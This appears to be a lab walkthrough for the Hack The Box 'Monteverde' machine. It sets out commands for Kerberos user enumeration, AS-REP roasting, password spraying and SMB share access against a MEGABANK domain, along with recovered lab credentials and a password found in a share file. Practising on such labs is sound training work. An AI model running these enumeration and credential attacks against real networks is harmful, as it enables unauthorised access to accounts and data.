 
Valid Users
```
kerbrute userenum -d MEGABANK --dc 10.10.10.172 valid_user.txt -t 100
```
![[Pasted image 20240503124645.png]]

```
svc-bexec@MEGABANK
svc-ata@MEGABANK
roleary@MEGABANK
SABatchJobs@MEGABANK
svc-netapp@MEGABANK
smorgan@MEGABANK
administrator@MEGABANK
```


```
GetNPUsers.py MEGABANK/ -usersfile valid_user.txt -format john -dc-ip 10.10.10.172
```
![[Pasted image 20240503124918.png]]

```
smorgan
Administrator
krbtgt
AAD_987d7f2f57d2
mhope
SABatchJobs
svc-ata
svc-bexec
svc-netapp
dgalanos
roleary
smorgan
Guest
Administrator
AAD_987d7f2f57d2
mhope
dgalanos
Administrator
roleary
```

Valid Users
```
|   |
|---|
|Administrator@MEGABANK|
|svc-bexec@MEGABANK|
|roleary@MEGABANK|
|SABatchJobs@MEGABANK|
|mhope@MEGABANK|
|smorgan@MEGABANK|
|svc-netapp@MEGABANK|
|AAD_987d7f2f57d2@MEGABANK|
|SABatchJobs@MEGABANK|
|dgalanos@MEGABANK|
|svc-ata@MEGABANK|
```


```
crackmapexec smb 10.10.10.172 -u ~root/HackTheBox/Monterverde/password.txt -p ~root/HackTheBox/Monterverde/password.txt 
```

```
MEGABANK.LOCAL\SABatchJobs:SABatchJobs 
```
![[Pasted image 20240503175616.png]]


Let's check SMB access
```
crackmapexec smb 10.10.10.172 -u SABatchJobs -p SABatchJobs --shares
```

```
smbmap -u SABatchJobs -d MEGABANK.LOCAL -p 'SABatchJobs' -H 10.10.10.172
```
![[Pasted image 20240503180348.png]]

```
smbclient //10.10.10.172/users$ -U 'SABatchJobs' --password 'SABatchJobs'
```
![[Pasted image 20240503180623.png]]

When we open the file 
```
4n0therD4y@n0th3r$
```
